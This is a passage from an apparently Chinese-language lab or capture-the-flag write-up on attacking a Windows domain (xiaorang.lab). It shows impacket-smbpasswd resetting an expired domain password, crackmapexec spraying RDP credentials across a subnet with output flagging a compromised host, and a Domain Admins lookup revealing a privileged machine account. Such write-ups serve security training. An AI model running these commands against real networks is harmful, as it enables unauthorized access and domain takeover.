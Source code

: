 使用 smbpasswd 修改已经过期的密码：

```
┌──(root㉿kali)-[/home/kali/Desktop]
└─# proxychains4 -q impacket-smbpasswd xiaorang.lab/Aldrich:'Ald@rLMWuy7Z!#'@172.22.8.15 -newpass 'new@Passwd'
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[!] Password is expired, trying to bind with a null session.
[*] Password was changed successfully.
```

使用新密码登录 WIN2016$ 主机：

```
┌──(root㉿kali)-[/home/kali/Desktop]
└─# proxychains4 -q cme rdp 172.22.8.18/24 -u Aldrich -p 'new@Passwd'
RDP         172.22.8.15     3389   DC01             [*] Windows 10 or Windows Server 2016 Build 20348 (name:DC01) (domain:xiaorang.lab) (nla:True)
RDP         172.22.8.18     3389   WIN-WEB          [*] Windows 10 or Windows Server 2016 Build 14393 (name:WIN-WEB) (domain:WIN-WEB) (nla:True)
RDP         172.22.8.15     3389   DC01             [+] xiaorang.lab\Aldrich:new@Passwd
RDP         172.22.8.18     3389   WIN-WEB          [-] WIN-WEB\Aldrich:new@Passwd (STATUS_LOGON_FAILURE)
RDP         172.22.8.46     3389   WIN2016          [*] Windows 10 or Windows Server 2016 Build 14393 (name:WIN2016) (domain:xiaorang.lab) (nla:True)
RDP         172.22.8.46     3389   WIN2016          [+] xiaorang.lab\Aldrich:new@Passwd (Pwn3d!)
RDP         172.22.8.31     3389   WIN19-CLIENT     [*] Windows 10 or Windows Server 2016 Build 17763 (name:WIN19-CLIENT) (domain:xiaorang.lab) (nla:True)
RDP         172.22.8.31     3389   WIN19-CLIENT     [+] xiaorang.lab\Aldrich:new@Passwd
```

![image.png](https://raw.githubusercontent.com/h0ny/repo/main/images/852de5301a6e5fd2.png)
使用域用户 Aldrich 登录主机 WIN2016.XIAORANG.LAB，虽然 Aldrich 是普通域用户，但是该主机在 Domain Admins 组中。

```
PS C:\Users\Aldrich\Desktop> hostname
WIN2016
PS C:\Users\Aldrich\Desktop> net group "Domain Admins" /domain
这项请求将在域 xiaorang.lab 的域控制器处理。

组名     Domain Admins
注释     指定的域管理员

成员

-------------------------------------------------------------------------------
Administrator            WIN2016$
命令成功完成。

PS C:\Users\Aldrich\Desktop>
```

## Image Hijacks
